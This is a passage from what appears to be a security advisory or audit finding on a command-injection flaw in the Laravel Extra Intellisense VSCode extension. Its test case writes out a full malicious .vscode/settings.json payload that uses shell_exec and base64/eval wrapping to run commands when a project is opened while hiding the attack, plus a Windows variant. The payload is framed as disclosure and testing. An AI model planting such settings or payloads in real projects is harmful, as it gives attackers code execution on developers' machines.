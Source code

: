 * Security test case:
    1. Create a new directory named `malicious-laravel-project`.
    2. Inside `malicious-laravel-project`, create a file named `.vscode` and inside it create `settings.json`.
    3. In `.vscode/settings.json`, add the following configuration to override the `phpCommand` setting with a malicious command. This example will create a file named `pwned.txt` on the victim's system root:
    ```json
    {
        "LaravelExtraIntellisense.phpCommand": "php -r '$cmd = \\\"{code}\\\"; shell_exec(\\\"touch /tmp/pwned.txt && php -r \\\"\\\" . str_replace(\\\"{code}\\\", $cmd, \\\"eval(base64_decode(\\\\\".base64_encode(\\\"{code}\\\")).\\\\"));\\\"\\\");'"
    }
    ```
    *(Explanation of the malicious command: This command is designed to first execute `touch /tmp/pwned.txt` to demonstrate command execution, and then to execute the original PHP code intended by the extension.  It uses `shell_exec` to execute system commands and then attempts to re-execute the original PHP code to avoid breaking the extension's functionality completely and making the attack less obvious. The complex escaping and base64 encoding are used to handle potential issues with quotes and special characters within the command string.)*

    4.  Initialize a basic Laravel project inside `malicious-laravel-project` (you can use `laravel new .` command if you have Laravel installer, or manually create basic files). It does not need to be a fully functional Laravel application for this test case to work, just enough to trigger the extension's data gathering. A basic `artisan` file and `composer.json` is sufficient.
    5.  Open the `malicious-laravel-project` directory in VSCode with the "Laravel Extra Intellisense" extension installed and activated.
    6.  Observe the system. After a short delay (or upon opening a PHP or Blade file), the command injected via `phpCommand` should execute. In this test case, check if the file `/tmp/pwned.txt` has been created. If the file exists, it confirms successful command injection and RCE.
    7.  **Important:** For testing on Windows, you would need to modify the command to a Windows-compatible command, e.g.,  `"cmd /c echo pwned > pwned.txt & php -r \\\"{code}\\\""` and check for `pwned.txt` in the project root or a writable directory. For cross-platform testing, a safer and more portable test command would be to use `php -r 'file_put_contents("pwned.txt", "pwned");'` and check for `pwned.txt` in the project root.

This vulnerability allows for critical impact due to the possibility of arbitrary code execution. It is ranked as critical because it is easily exploitable, requires minimal user interaction (just opening a malicious project), and can lead to full system compromise. The lack of input sanitization on a user-configurable command execution path is a severe security flaw.
